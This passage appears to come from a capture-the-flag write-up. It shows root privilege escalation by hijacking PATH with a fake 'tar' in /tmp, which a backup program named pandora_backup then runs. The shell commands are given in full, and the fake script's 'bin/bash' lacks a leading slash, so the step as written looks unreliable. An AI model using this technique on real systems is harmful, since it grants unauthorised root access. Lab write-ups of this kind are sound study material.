 ![](_attachments/pandora20.PNG)

So it looks like it uses tar to pack the contents of `pandora_console` into a tar archive, so we can potentially poison the tar PATH to make it execute something different.

```bash
cd /tmp
echo "bin/bash" > tar
chmod 777 tar
export PATH=/tmp:$PATH
pandora_backup
```

![](_attachments/pandora21.PNG)

We are now root!


